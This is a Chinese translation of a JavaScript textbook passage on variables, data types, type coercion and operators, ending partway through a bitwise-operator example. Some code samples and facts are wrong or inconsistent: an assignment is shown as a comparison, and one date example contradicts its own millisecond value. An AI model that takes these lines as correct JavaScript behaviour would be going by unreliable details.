JavaScript 也支持标准的 Java 风格单行注释和块注释。通常，解释器会忽略注释块内的任何文本。单行注释以双斜杠（`//`）开头，多行注释由符号 `/*` 和 `*/` 包围。以下是一些示例：

```javascript
// 这是一个单行注释。
```

```javascript
/*
 * 这是一个多行
 * 注释
*/
```

```javascript
/*
这也是一个
有效的多行注释
*/
```

注释可以出现在代码的任何地方，包括任何函数之外的顶层。Internet Explorer 支持 JavaScript 中的条件注释概念。通常，避免在注释内部文本开头使用 `@` 符号以防掉入这个陷阱。如果你想了解更多关于条件注释的信息，请阅读附录 A 中的条件编译章节。

## 保留关键字

与大多数语言一样，JavaScript 有许多关键字，这些关键字不能或不应该用函数和变量的标识符。它们被留给语言未来使用，目前是某些语言版本的一部分，或者被用于用户拥有的某些关键组件或扩展（可能是作为其浏览器的一部分）。取决于浏览器或运行时环境，你实际上可能可以将这些单词中的创建为标识符，但通常情况下即使你可以这样做也不应该这样做，因为它们对你的应用程序构成了维护风险。完整的关键字列表可以在第 22 章和附录 E 中找到。

# 变量

现在我将讨论转向 JavaScript 如何处理变量、核心对象和类型检查。我已经在之前的章节介绍过变量的主题，但现在我将深入它们在实际运行中的行为细节。

## 声明变量

如果你是从其他编程语言过来的，你对变量一定非常熟悉。在 JavaScript 中，你这样指示变量创建：

```javascript
var a;
```

在这种情况下，关键字 `var` 表示下一个符号是当前作用域内的一个新标识符。我很快会详细讨论作用域。当你定义新变量时，可以同时对其实例化并赋值，如下例所示：

```javascript
var a = 12;
var b = {animal:"cat",age:10};
var c = true;
// 等等
```

你也可以一次声明多个变量，如下例所示：

```javascript
var a,b,c,d = 1; // 只有 d 有
var a = 1, b = 2, c = 3, d = 4; // 它们都有值
```

## 隐式声明

你并不总是在使用变量之前显式定义它们。你可以通过直接引用它而不使用 `var` 关键字来隐式定义变量。

```javascript
myNonExistentVar = 100;
```

当你这样做时，变量被分配到全局作用域，这意味着它可以被所有块、函数和语句访问。通常，不使用 `var` 关键字的隐式声明被认为是使用变量的一种草率方法，并使得阅读你代码的人难以追踪变量的来源。通常，你应该避免使用它们。

## 标识符

标识符是你用于命名变量的字符串。基于标准的 ECMAScript 实现支持许多 Unicode 字符。变量命名有一些通用指南：

* 标识符是区分大小写的。例如，`"myName"` 不等于 `"MyName"`。
* 它们必须以字母或下划线开头。
* 它们不能以数字开头，但可以包含数字。例如，`"_123"` 是有效的变量名，但 `"123_"` 不是。
* 它们不能包含标点符号。例如，`"some:thing"` 或 `"big#"` 或 `"do'to"` 都是非法的。下划线 `_` 和美元符号 `$` 是这里的例外。
* 它们不能包含任何数学或逻辑运算符。例如，`"8*apple"` 或 `"this+that"` 都是非法的，因为 `*` 和 `+` 是算术运算符。`^`、`/`、`\`、`!` 等也是如此。
* 它们不能包含空格。
* 你不能将 JavaScript 关键字（语言本身的一部分）变量名。参见附录 E 中的关键字列表。在某些情况下，解析器实际上允许你使用关键字作为变量名，但这可能不具有未来的兼容性。然而，以下示例是完全合法的：

```javascript
one_for_the_variable_name
```

```javascript
p123
```

```javascript
$123
```

## 弱类型

也称为*松散类型*（*强类型*的反面），*弱类型*是指*类型转换*被放宽，你可以随意重新分配变量的类型。JavaScript 在这方面与 C++、Java 和 C# 等语言不同。在 JavaScript 中，例如：

```javascript
a = 1;
a = "apple";
```

在这个示例中，我违反了强类型语言两个规则之一是我没有在使用变量之前声明它，也没有指定它是什么类型。另一个是在第二行中，我通过给它分配字面量更改了变量的类型。首先，变量是一个数字（Number）；然后它变成了字符串（String）。与 C# 等语言相比，你需要在声明时指定类型，并且尝试更改它的类型将会触发编译器异常：

```csharp
int myNumber = 12;
string myString = "hello";
myString = myNumber; // 将触发类型异常
```

在 JavaScript 中，这是完全合法的：

```javascript
var myNumber = 12;
var myString = "hello";
myString = myNumber;
```

## 内存与垃圾回收

垃圾回收引擎定期检查执行中的程序，寻找不再被引用的对象，以便将其内存释放给操作系统。JavaScript 使用自动垃圾回收方案。然而，各个 JavaScript 引擎对它的实现方式不同。通常，如果一个对象没有剩余引用，它就会变得可以进行垃圾回收并在某处被销毁。如果该系统实现正确，当你离开网页时，JavaScript 和 DOM 使用的所有内存都应该被识别并释放。现实情况是，大多数浏览器都会内存泄漏，有些泄漏得非常严重。你可以在 JavaScript 代码中使用一些技术来减少内存泄漏量。通常，新版本的 Explorer 和 Mozilla 泄漏的内存比以前少。尽管如此，在随后的章节中（特别是第 5 章和第 10 章），我将讨论避免这些问题的特定方法。

# 数据类型

我已经介绍过数据类型的主题，如果你是一个经验丰富的开发者，这对你来说会很熟悉。然而， JavaScript 处理某些数据类型的方式与其他某些语言有些不同。这些差异之一在于它如何区分原始类型与引用对象类型。

## 原始类型 vs 引用类型

在 ECMA 标准 JavaScript 中有五种原始数据类型：`Number`、`String`、`Boolean`、`Null` 和 `Undefined`。它们之所以被称为原始类型，是因为从组成部分来看，它们无法进一步分解为更基础的单元。这两种类型中的 `Null` 和 `Undefined` 无法存储任何有用数据，仅在特殊情况下出现。图 3-1 显示了各种类型是如何分组的。图 3-1 

引用类型也被称为复合数据类型，因为它们同时包含原始类型和其他复合类型。复合类型基于名为 `Object` 的基础构建块类型，它是一个包含任意数量成员的不同类型的灵活集合。这些类型包括 `Array`、`Function`、`Date`、`RegExp`（正则表达式）和 `Error`。在实践中，每个 JavaScript 引擎在上述类型的基础上提供额外的复合类型。完整列表请参见第 5 章和附录 B。

基本数据类型根据存储信息的方式分为两类。原始类型将其值直接存储在分配给该标识的内存中，而复合类型分配一个指向包含对象数据的内存地址的引用（这称为指针）。JavaScript 处理内存的方式不影响你，但在它将这两种类型作为参数传递时，确实会有影响。图 3-2 说明了内存指针是如何工作的。图 3-2 

## 按值与按引用操作

在创建原始数据类型的拷贝时，你字面上获得的是变量内部值的拷贝。看以下示例：

```javascript
var myNum = 100;
var myNum2 = myNum;     // 100
myNum2 = 101;
document.write(myNum + "<br />");   // 100
document.write(myNum2 + "<br />"); // 101
```

在这种情况下，你创建了变量 `myNum` 的副本，并改变了副本的值。两个变量保持独立且分离。如果你对引用类型执行相同的操作，你将得到不同的结果：

```javascript
var myObj = {name: 'David' , age:12};
var myObj2 = myObj;
myObj2.name = 'Simon' ;
document.write(myObj.name + "<br />");   // "Simon"
document.write(myObj2.name + "<br />"); // "Simon"
```

在这里你可以看到，仅仅拷贝对象并不会真正克隆它，而是拷贝了该对象的引用。这在图 3-3 中进一步说明。图 3-3 

同样的思想也适用于作为参数传递的变量。我将在第 5 章详细讨论这一点。

## Null 和 Undefined

混淆 `null` 和 `undefined` 的含义很容易，因为它们在某种意义上都表示为空。在实践中，它们有不同的含义。首先，`null` 是一个类型为 `null` 的对象。`undefined` 不是对象，但其类型为 `undefined`。`undefined` 类型适用于不存在或尚未实例化的变量。它们只能包含一个值，即 `undefined`。例如：

```javascript
var apple;
```

在给变量 `apple` 赋值之前，它将是 `undefined` 类型并包含值 `undefined`。一旦你给它分配了值，它就不再是 `undefined` 类型了。

相反，`null` 类型表示空值。与 `undefined` 的区别在于，当变量为 `undefined` 时，它已经被创建但没有值；而当变量为 `null` 时，它被设置为了空值。虽然大多数浏览器支持使用 `null` 关键字（例如 `var a = null`），但只有现代浏览器支持使用 `undefined` 关键字（Netscape 6+, Firefox 1+, Safari 1+, 以及 Explorer 5.5+）。检查 `a == undefined` 仅在这些浏览器中有效。

比较 `null` 和 `undefined` 值有点不寻常。由于 JavaScript 的弱类型系统和一个称为“类型转换”的概念，它们非常频繁地被比较为相等。在接下来的用例中，你创建了两个变量：一个值为 `null`，另一个为 `undefined`。

```javascript
var undefinedVariable;
var nullVariable = null;
if (undefinedVariable == null) {
    document.write("undefinedVariable is equal to null.<br />");
}
if (nullVariable == undefined) {
    document.write("nullVariable is undefined.<br />");
}
if (undefinedVariable == nullVariable) {
    document.write("Both are equal to each other.");
}
```

这将产生输出：
undefinedVariable is equal to null.
nullVariable is undefined.
Both are equal to each other.

## 确定类型

你已经知道变量可以在任何时间拥有任何类型。如何确定变量是什么类型呢？幸运的是，你获得了一个专门执行此操作的操作符：`typeof`。你可能会这样使用 `typeof`：

```javascript
var myIdentifier = "hello";
document.write(typeof myIdentifier);    // string
```

下表列出了 `typeof` 操作符返回的值 

## 类型转换

弱类型允许你以非常灵活的方式修改变量。它还允许自动类型转换，这使得在不同类型之间进行比较变得更容易。例如：

```javascript
var result1 = 1 + "1";   // "11"
var result2 = 2 - "1";   // 1
```

在 `result1` 的情况下，由于 `+` 操作符的歧义，两个值都被视为字符串。在另一种情况下，`-` 操作符是明确的数值操作符，因此两个值都被转换为数字。

需要知道的一点是，当发生隐式类型转换时，原始变量不会被修改。转换只发生在该表达式中。虽然这一切似乎是随机的，但这里遵循着一套严格的规则，我将在接下来讨论。

### 原始类型转换

转换原始类型的两个基本原则可以帮你避免很多问题。一个是 `+`（加）操作符的双重性。我将在第 4 章中讨论操作符，但现在只需要知道这个运算符可以用于数字，也可以用于字符串，如下例：

```javascript
var myNum = 1 + 1;
var myString = "Hello " + "World";
```

当你将它们结合时会发生什么？如果你评估 `myNum+myString`，JavaScript 将始终将两个值转换为字符串。当在那种情况下竞争哪种类型会获胜时，取决于使用了哪些操作符来决定什么样的转换。例如：

```javascript
var result1 = 1 + true;  // 2
```

```javascript
var result2 = 1 + false; // 1
```

在这种情况下，布尔值在两种情况下都会被转换为数字。值 `true` 等于 1，`false` 等于 0。

```javascript
var result1 = "true" + true; // "truetrue"
```

在所有涉及布尔值和字符串的情况中，两个值都将被视为字符串。下面的结果集显示了不同类型是如何相互作用的。

```javascript
var result1 = "null" + null; // "nullnull"
var result2 = "undefined" + undefined; // "undefinedundefined"
var result3 = 1 + null; // 1
var result4 = 1 + undefined; // NaN
var result5 = true + null; // 1
var result6 = true + undefined; // NaN
```

在下表中，我展示了不同类型转换为数字的结果：

在下表中，我展示了不同类型转换为布尔值的的结果：

这里再次是不同类型转换的结果，这次是转换为字符串：


## 显式类型转换

在处理不同的数据类型时，仅仅依赖 JavaScript 执行类型强制转换的方式通常是不够的。如果你想强制将一个字符串视为数字，或将一个对象视为字符串该怎么办？JavaScript 中的全局对象提供了一些方便的方法来完成此操作。这些内容将在第 6 章中进行更详细的介绍。

- `parseFloat(value)` -- 强制将任何字符串视为浮点数。例如：`parseFloat("2.13") == 2.13`
- `parseInt(value)` -- 与 `parseFloat` 类似，但会截断小数点后的任何内容。例如：`parseInt("2.13") == 2`
- `Object.toString()` -- 任何继承自 `Object` 类型的复合类型都拥有 `toString()` 方法，允许其直接被视为字符串。遗憾的是，不同的 JavaScript 引擎对相同的对象输出不同的结果。

## 复合类型到原始类型的转换

比较和转换不同的复合对象彼此相当复杂，但转换为原始类型是非常简单的。最常用的转换是从对象到布尔值，如下例所示：

```javascript
if (document.body) {
    // 它存在
    // 执行某些操作
}
```

虽然你可能还不知道 `document.body` 是浏览器内部 DOM 的一个对象，但你在这里只需要意识到，为了对 `if` 语句进行评估，整个对象已经被转换成了布尔值。当对象存在时，它们的求值为 `true`。当它们为 `undefined` 时，它们的求值为 `false`。由于所有复合类型都继承自 `Object`，因此它们都可以这样使用。

大多数对象更进了一步，继承了两个名为 `valueOf()` 和 `toString()` 的方法。在将对象强制转换以与原始值进行比较或操作时，JavaScript 通常会使用 `valueOf()` 转换为字符串，然后使用 `toString()`。这在使用 `+` 运算符和其他比较运算符时是成立的。但缺点是，对于大多数对象，`toString()` 返回并没有有用的结果（例如，`"[Object]"`），因此这在实践中对于开发者来说很少是充分的。注意，如果一个对象被转换为字符串，它将具有字符串的属性。这对于数组等内容特别相关，因为数组可以包含数字。

```javascript
var myArr = [233];
var result = myArr - 10; // 223
```

在这里，由于 `toString()` 的结果是一个类似于数字的字符串，在该次操作中该值被视为数字，就像任何其他字符串一样。

## 原始类型与原始对象

与某些语言不同，字符串被视为原始数据类型而不是复合类型。JavaScript 没有 `Char`（字符）类型，其他语言将其用作字符串的构建块。因此，字符串变成了 `Char` 数组，而不是一种单独的原始类型。这很重要，因为在比较值时，你可以将字符串视为原始类型，而无需使用专门的比较函数。

奇怪的是，字符串也具有对象的特征。例如，当你想要字符串的长度时，你可能会这样做：`"hello world".length`。如果你想获取该值的子字符串，你会使用成员函数 `String.substring`。例如，你可能会说：`"hello world".substring(2,4)`。那么，字符串如何既是原始数据类型又是对象呢？答案是它两者皆是，取决于需求。对于每个原始数据类型（Number、Boolean、String），都有一个对应的 `Object` 类型，带有属性和方法。对于这些每一个类型，该对象的方法会自动应用，并且无论是使用字面量实例化类型还是使用对象的构造函数，其结果几乎是一模一样的。例如：

```javascript
var myNum1 = 10;
var myNum2 = new Number(10);
document.write(myNum1.toFixed() + "<br />"); // "10"
document.write(myNum2.toFixed() + "<br />"); // "10"
```

我们说*几乎*相同，因为实际上这些对象并不是同一种。当使用构造函数时，对象继承自 `Object` 类型；但当使用字面量时，对象继承自原始类型。例如，如果你使用 `typeof` 检查这两个变量，将得到不同的结果：

```javascript
var myNum1 = 10;
var myNum2 = new Number(10);
document.write(typeof myNum1); // "number"
document.write("<br />");
document.write(typeof myNum2); // "object"
```

我将在第 6 章中详细讨论这些原始对象。

## 总结

在本章中我们涵盖了大量内容。你学到了：
- JavaScript 具有某些编译语言中不常见的动态特性。可以在运行时引入新代码，这可以从根本上改变程序的运行。
- 弱类型系统允许对不同数据类型进行方便的操作和比较。
- 与 Java、C++ 和 C# 不同，JavaScript 不使用基于类的继承。相反，它使用原型系统，等同于对象模型的克隆。
- JavaScript 是 Unicode 安全的、大小写敏感的，并且不涉及空格计算作用域。
- JavaScript 拥有强大的对象字面量语法，可以描述语言中的任何对象或原始类型。
- 解释器使用静态作用域来追踪标识符的来源。局部作用域可以实例化与全局作用域重复的变量名。
- 变量可以隐式或显式地定义。
- 有两种类型的数据：原始和引用。在作为参数传递或在变量之间复制时，它们的处理方式不同。
- 构建了一个复杂且强大的类型转换系统，它会自动尝试转换变量类型以便于比较。

在第 4 章中，我将继续对语言的一些基本语法组件进行讨论，并对表达式、运算符和语句进行解释。

## 表达式、运算符和语句

如果上一节讨论的数据类型是建筑内部的砖，那么运算符、表达式和语句就是将它们结合的灰浆。JavaScript 在支持的操作类型上是非常现代的语言，你会发现许多相同的语句和表达式可以像在其他语言一样一样。

# JavaScript 表达式

在数学中，表达式是指任何可以解析为单个值的符号连贯组合。这在编程意义上也是如此，但可以包括变量、字面量、运算符和函数，这些可以由解释器求值为单个值。例如，以下列表包含一组 JavaScript 示例表达式：

```javascript
"Hello"
myValue
myValue * 100
function() {return null;}
```

100.3231E2 一个表达式是符号的组合，但你也可以说它*就是*它的值，或者它*拥有*一个特定的值。值不必是像数字或字符串字面量那样的原始类型，也可以是对象（如 `DOM node`）或函数的引用。根据求值结果，表达式*属于*该类型。例如，如果表达式的结果是一个布尔值（逻辑操作），那么它就是一个`逻辑表达式`。如果表达式的结果是一个数值，它就是一个`算术表达式`，依此类推。就像在数学中一样，你经常在表达式内部使用称为`运算符`的符号来执行计算。在上面示例的第 3 行 `myValue * 100` 中，我使用了运算符 `*`（乘法）来将两个较小的表达式 `myValue` 和 100 组合成一个更大的表达式。接下来我将讨论运算符。

# JavaScript 运算符

编程运算符与数学运算符相似，但支持更广泛的操作。它们通常需要一个或两个`操作数`（通常是数据值）并输出一个结果。在诸如 `10 - 3 = 7` 的数学表达式中，`-` 符号和 `=` 符号是运算符，数字 10 和 3 是操作数。在诸如 `myString1 + myString2 = resultString` 的编程语句中，相同的符号是运算符，`myString1` 和 `myString2` 是操作数。与大多数语言一样，JavaScript 支持非常复杂的操作，表达式可以作为操作数的理想候选，如下例所示：`(x * 100) + (y - 3) = myResult`。在这里，两个表达式：`(x * 100)` 和 `(y - 3)` 充当操作数。这涉及到另一个主题，`优先级`或`运算顺序`，我将在本章稍后部分讨论。JavaScript 中提供的多数运算符在所有 JavaScript 引擎之间都是通用的，你可以追溯到该语言的早期版本。少数例外详见附录 A。

## 运算符类型

由于可用运算符非常多，根据它们所处理的操作数类型和通用用途将它们分为功能类别是有帮助的。文中描述了以下六大类：

## 比较运算符

将一个值与另一个值比较是非常常见的任务。例如，如果你想知道一个数字是否大于另一个数字，或者一个字符串在字母表中是否靠后，你就会使用比较运算符。每当你这样做时，你期望结果为 true 或 false。JavaScript 支持一组典型的比较运算符，它们可以比较任何操作数类型并返回预期的布尔结果。下表包含了比较运算符列表 

### 数字和字符串

数字上的比较运算符原理与数学中相同。考虑以下示例：

```javascript
21 > 20    // true
21 < 20    // false
10.231 = 10.2310    // true
3 <= 3    // true
4 >= 1    // true
3 != 10    // true
```

当将数字与字符串比较时，字符串会被转换为数字（如果可能），如下例所示：

```javascript
10 >= "9" // true
4.01 == "4.01000" // true
"32" != 32.0    // false
```

当字符串之间进行比较时，比较是逐个字符进行的，每个字符使用其在 Unicode 编码中的数值来表示。这就是为什么 `"a3" == "a3"` 但 `"a30" > "a3"`。此外，大写字母在字母表中的顺序低于对应的小写字母。因此，像 `"apple" > "Apple"` 的比较将为 true。

### 布尔值

当比较布尔值时，每个布尔值会被分配一个数字：`true` 为 1，`false` 为 0。这就是为什么 `true > false` 为 true，`true > .0` 为 true，`false < 1` 为 true，以及为什么 `true + true = 2`。

### 日期

当日期之间或日期与数值进行比较时，比较的是代表从 1970 年 1 月 1 日到日期定义的特定时刻的毫秒数。因此，通过这种方式，它们在执行比较操作时可以被视为数字。在下面的示例中，我创建了两个相同的日期并对它们进行了比较。

```javascript
var date1 = new Date();    // "Wed Nov 19 2008 11:35:07 GMT-0800 (PST)"
var date2 = new Date(date1.valueOf());  // "Wed Nov 19 2008 11:35:07 GMT-0800 (PST)"
// 现在我们有两个相同但不同的日期对象，可以对它们进行比较。
document.write(date1 == date2);    // false
document.write(date1 > false);    // true. false 被转换为数字 0
date2 = new Date(date2.valueOf() + 1);  // 我们为日期增加了一个毫秒
document.write(date2 > date1);    // true
```

将日期与数字比较时，请使用此毫秒数作为比较依据。例如，如果你的日期对象的 `valueOf()` 为 `1227123307153`，则以下语句将为 true：

```javascript
date1 > 1227123307152    // true
date1 < 1227123307154    // true
```

然而，需要注意的是，日期和数字之间的直接等性比较不会按预期工作。在这种情况下，两个操作数都将被视为字符串。例如，以下语句为真：

```javascript
date1 != 1227123307153    // true
date1 == date1.toString()    // true!
```

要对日期和数字进行直接等性比较，你必须强制类型转换，可能通过使用 `valueOf()`，如下例所示。

```javascript
date1.valueOf() == 1227123307253    // true
```

### 对象

当比较像 `Object` 引用这样的引用数据类型时，你实际上是在比较*引用*本身，而不是对象*中*的数据。如果你有两个具有不同引用的相同对象，像 `a == b` 这样的比较仍然将为 false。如果两个变量引用同一个对象，则 `a == b` 将为 true。引用数据类型之间的大于和小于比较是无意义的，如下例所示：

```javascript
var myObj1 = {a:123,b:"hello"};
var myObj2 = {a:123,b:"hello"};    // 与第一个对象相同
var myObj3 = myObj1;
document.write(myObj1 == myObj2);  // false
document.write(myObj1 >= myObj2);  // false
document.write(myObj1 <= myObj2);  // false
document.write(myObj1 == myObj3);  // true 因为共享相同的引用
document.write(myObj1 == "[object Object]");  // Mozilla 上为 true
```

前一个示例中的最后一个语句值得特别提到。当将对象引用与字符串比较时，对象会被转换为字符串。

### 严格与松散相等

运算符 `===` 和 `!==` 与 `==` 和 `!=` 的区别在于它们在比较值之前不会对值进行类型转换。这个概念在第 3 章中讨论。偶尔，了解这些可能对你有帮助：

```javascript
5 == "5" // true!
```

这种强制的类型切换允许你非常容易地判断它们是同一个数字。同样：

```javascript
5 === "5" // false!
5 === (6-1) // true
```

这告诉了我们额外信息：不仅值必须相同，类型也必须相同。通常情况下，建议尽可能使用严格相等比较，以避免在无意中对你理想上想要不同的值得到假阳性结果。这的一个例子是比较 null 值和 undefined 值时，使用严格相等会发生的变化：

```javascript
null == undefined // true
null === undefined // false
```

完全可能你的代码中某些内容尚未定义是你应用程序中一个重要的调试问题。通过使用严格比较，你会立即发现它。

### 向后兼容

严格相等运算符 `===` 和 `!==` 仅在 JavaScript 1.2 (JScript 3.0+, IE 4.0+, Netscape 4.0+) 中引入。从那时起，它们的行为一直保持一致。标准相等运算符 `==` 和 `!=` 显然从一开始就可用了，但它们的行为*发生过*变化。在 JavaScript 1.3 (JScript 3.0+, IE 4.0+, Netscape 4.06+) 之前，它们*并没有*执行现在的那种松散类型比较。通常情况下，如果你打算支持非常旧版本的 JavaScript，你会在进行比较操作时由自己手动完成类型转换。

## 赋值运算符

赋值运算符根据右侧操作数的值将值赋给左侧操作数。例如，如果取最基础的赋值运算符*等于* (`=`)，表达式 `a = b` 会取 `b` 的值并将其赋值给 `a`。在一个更复杂的示例中，表达式 `a = a + b` 会先求值右侧的 `(a + b)`，然后将其赋值给左侧 `a`。这个表达式可以通过简单地写成 `a += b` 来简化。所有的组合运算符（后文将讨论）如 `+`（加）、`-`（减）、`*`（乘）和 `/`（除）都可以使用这种简写技术。例如：



为了便于解释，我将那些将赋值与算术或字符串操作相结合的运算符（例如 `a += b`）称为*短形式操作*。我将展开的语法（例如 `a = a + b`）称为*长形式操作*。

JavaScript 提供这些简写形式有几个原因。首先，尽可能使用运算符的短形式会让你的代码更易读。它让读者只需识别更少的符号就能理解正在发生什么操作。此外，对于解释器也有明显的性能优势。当你使用 `a += b` 而不是 `a = a + b` 时，解释器只需要识别两个变量而不是三个。如果操作涉及字符串（例如 `myString = myString + " hello."` 与 `myString += " hello."` 相比），在“底层”评估表达式时需要大量的额外内存和更多的操作。如果你在所有主流浏览器中运行测试来衡量这两种场景的性能，你会发现使用短形式处理数字有细微但明显的提升，而在处理字符串时有显著提升。这种情况是普遍的，如图 4-1 和 4-2 所示。**图 4-1** 

对于上述图表中提到的测试，我对语句 `a = a + 1` 和 `a += 1` 执行了数万次测试并测量了结果。在每个浏览器中，使用短形式都有性能提升。在图 4-2 中，你可以看到字符串上有类似的效果。**图 4-2** 

对于此表中提到的测试，我测试了语句 `a = a + "aaa"` 和 `a += "aaa"`。在每个浏览器中性能都存在巨大差异，而 Internet Explorer 的表现尤为极端。

## 逻辑运算符

逻辑运算符用于测试布尔（真和假）状态。通常当使用这些运算符时，它们是在测试布尔值并返回布尔结果。正如你所看到的，情况并不*总是*如此，但那是例外而非常例。



由于 JavaScript 是松散类型的，你应该意识到布尔数学是如何作用于非布尔类型的。在上一章中，你查看了原始类型和非原始类型之间的类型转换。将类型转换为布尔值时，将遵循以下规则：



通常你会发现将非布尔类型作为布尔测试的效果是测试它是否存在。在实践中，这通常是它的用法。在下面的示例中，你使用 `document.getElementById()` 方法（在第 13 章详细介绍）从页面中获取一个 DOM 元素：

```javascript
var myObj = document.getElementById("id");
if (myObj) {
    // do something
}
```

## 按位运算符

当使用按位运算符时，每个操作数都被视为 32 位（0 或 1），并采用 `big-endian`（大端序）顺序和 `two's complement`（补码）格式，而不是单个十进制值。例如，数字十的二进制是 1010，如果将其表示为 32 位数，它将是 00000000000000000000000000001010。在涉及过多痛苦细节的情况下，`big endian` 一词意味着数字的高位字节存储在内存的最低地址，低位字节存储在最高地址。换句话说，`big end`（即代表数字高值部分的位）在 `little end`（小端）之前。在二进制中存储多字节值的另一种方式被称为 `little endian`（小端序）。在机器码层级处理二进制数据的标准做法是 `big endian`。

这里使用的另一个术语 `two's complement` 仅意味着一个数的负对应值（例如 10 与 -10）是该数所有位取反加 1。例如，回到我们之前的数字十的例子：

```
00000000000000000000000000001010
```

如果你想用补码表示 -10，你需要翻转所有位并加 1：

```
11111111111111111111111111110110
```

这保证了当数字为正数时，最左侧的位（“符号位”）始终为 0，当数字为负时为 1。回到 JavaScript 的运算符，有几个运算符以这种方式处理操作数。它们在下表中描述：



按位与（AND）、或（OR）和非（NOT）操作与 JavaScript 的逻辑运算符非常相似，而异或（XOR）运算符是一个新的。例如，当对单个位应用 `&`（与）运算符时，如果我们认为 1 等同于 true，0 等同于 false，将得到相同的结果。请参见下表示例：



将其与 JavaScript 中的布尔操作相比，你会发现你会得到相同的结果：



查看按位 `|`（或）操作的工作原理，你可以得到以下可预测的结果：



剩余的按位逻辑运算符 `^`（异或）与 JavaScript 中的任何布尔运算符都不同。如果被比较的操作数互为相反，则返回 true；如果相同，则返回 false。



这是一个使用 `&` 运算符的按位与操作示例：

```javascript
// 这里是数字的 32 位表示
// 11 = 00000000000000000000000000001011
